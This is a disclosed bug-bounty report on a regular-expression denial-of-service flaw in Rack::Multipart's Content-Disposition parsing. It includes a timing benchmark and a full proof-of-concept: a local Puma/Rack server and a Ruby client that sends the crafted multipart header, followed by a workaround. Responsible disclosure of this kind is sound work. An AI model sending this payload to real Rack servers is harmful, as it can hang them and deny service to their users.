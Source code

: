 # ReDoS in Rack::Multipart

## Report Details
- **Report ID**: 1489141
- **URL**: https://hackerone.com/reports/1489141
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-02-22T22:34:07.663Z
- **Disclosed**: 2023-07-28T00:26:27.997Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
Hello, I found ReDoS on Rack.

I found this problem using `recheck` (https://makenowjust-labs.github.io/recheck/), a ReDoS detection tool.

This tool has found multiple places where there seems to be a problem with the rack code, but since there are many and it takes time to check the behavior, I will first report on `Rack::Multipart::RFC2183`, which is the most dangerous.
This is detected as exponential by recheck.

- https://github.com/rack/rack/blob/2.2.3/lib/rack/multipart.rb#L38
- https://github.com/rack/rack/blob/2.2.3/lib/rack/multipart/parser.rb#L296

```ruby
❯ bundle exec irb
irb(main):001:0> require 'rack'
=> true
irb(main):002:0> Rack::Multipart::RFC2183
=> /^(?i-mx:Content-Disposition:\s*(?-mix:[^\s()<>,;:\\"\/\[\]?=]+)\s*)((?-mix:;\s*(?:(?-mix:((?-mix:(?-mix:(?-mix:[^ \t\v\n\r)(><@,;:\\"\/\[\]?='*%])+)(?-mix:\*[0-9]+)?))=((?-mix:"(?:\\"|[^"])*"|(?-mix:[^\s()<>,;:\\"\/\[\]?=]+))))|(?-mix:(?-mix:((?-mix:(?-mix:(?-mix:[^ \t\v\n\r)(><@,;:\\"\/\[\]?='*%])+)(?:\*0)?\*))=((?-mix:[a-zA-Z0-9\-]*'[a-zA-Z0-9\-]*'(?-mix:%[0-9a-fA-F]{2}|(?-mix:[^ \t\v\n\r)(><@,;:\\"\/\[\]?='*%]))*)))|(?-mix:((?-mix:(?-mix:(?-mix:[^ \t\v\n\r)(><@,;:\\"\/\[\]?='*%])+)\*[1-9][0-9]*\*))=((?-mix:%[0-9a-fA-F]{2}|(?-mix:[^ \t\v\n\r)(><@,;:\\"\/\[\]?='*%]))*))))\s*))+$/i
```


### benchmark

rfc2183_benchmark.rb

```ruby
require 'benchmark'
require 'rack'

regexp = Rack::Multipart::RFC2183

def attack_text(length)
 "Content-Disposition:G;\f=\""  + "=;1=\";\fD=\";t*1*" * length + '='
end

Benchmark.bm do |x|
  x.report { attack_text(5)[regexp] }
  x.report { attack_text(10)[regexp] }
  x.report { attack_text(15)[regexp] }
  x.report { attack_text(20)[regexp] }
  x.report { attack_text(25)[regexp] }
  x.report { attack_text(26)[regexp] }
end
```

```
❯ bundle exec ruby rfc2183_benchmark.rb
       user     system      total        real
   0.000018   0.000004   0.000022 (  0.000016)
   0.000357   0.000000   0.000357 (  0.000361)
   0.010888   0.000018   0.010906 (  0.010961)
   0.342814   0.000717   0.343531 (  0.344750)
  10.925193   0.022059  10.947252 ( 10.979092)
  21.906178   0.049380  21.955558 ( 22.024203)
```


### PoC

Gemfile

```ruby
# frozen_string_literal: true

source "https://rubygems.org"

gem 'rack', '~> 2.2', '>= 2.2.3'
gem 'puma', '~> 5.6', '>= 5.6.2'
```

config.ru

```ruby
class Server
  def call(env)
    Rack::Request.new(env).params

    [ 200, {}, []]
  end
end

run Server.new
```

```ruby
require "net/http"
require "uri"

class Net::HTTPGenericRequest

  def encode_multipart_form_data(out, params, opt)
    charset = opt[:charset]
    boundary = opt[:boundary]
    buf = ''
    params.each do |key, value|
      buf << "--#{boundary}\r\n"
      buf << "Content-Disposition:G;\f=\""  + "=;1=\";\fD=\";t*1*" * 27 + '='
      buf << "Content-Type: application/octet-stream\r\n\r\n"

      buf << "content"
      buf << "\r\n"
    end
    buf << "--#{boundary}--\r\n"
    flush_buffer(out, buf, false)
  end
end  

data = [["dummy"]]

url = URI.parse('http://127.0.0.1:9292/')
req = Net::HTTP::Post.new(url.path)
req.set_form(data, "multipart/form-data")

res = Net::HTTP.new(url.host, url.port).start do |http|
  http.request(req)
end
```

`bundle exec rackup` & `bundle exec ruby rfc2183_request.rb`

## Impact

When the client sends a specially crafted header, it occur ReDoS on the server side.
I confirmed that the combination of puma, unicorn, puma + nginx, unicorn + nginx occur Redos.

There are several other places where `Rack::Multipart` is likely to be ReDoS, and it seems good to exclude it as a workaround if user do not use file upload.

#### work around

```ruby
class Rack::Request
  def parse_multipart
    nil
  end
end
```

## Attachments
No attachments
